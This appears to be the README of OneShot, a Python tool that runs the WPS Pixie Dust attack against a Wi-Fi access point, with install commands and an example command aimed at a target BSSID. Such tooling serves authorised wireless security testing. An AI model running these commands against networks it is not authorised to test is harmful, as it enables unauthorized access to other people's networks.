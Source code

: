 
# Overview
**OneShot** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.

# Requirements
 - Python 3.5 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps).

# Setup
## Debian/Ubuntu
**Installing requirements**
 ```
 sudo apt install -y python3 wpasupplicant wget build-essential unzip
 ```
**Installing Pixiewps**:
***Ubuntu 18.04 an above or Debian 10 and above***
 ```
 sudo apt install -y pixiewps
 ```
***Other***
 ```
 wget https://github.com/wiire-a/pixiewps/archive/master.zip && unzip master.zip
 cd pixiewps*/
 make
 sudo make install
 ```
**Getting OneShot**:
 ```
 cd ~
 wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py
 ```

# Usage
```
 python3 oneshot.py <arguments>
 Required Arguments:
    -i, --interface=<wlan0>  : Name of the interface to use
    -b, --bssid=<mac>        : BSSID of the target AP

Optional Arguments:
    -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
    -K, --pixie-dust         : Run pixiedust attack
    -v                       : Verbose output
 ```

## Usage example
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
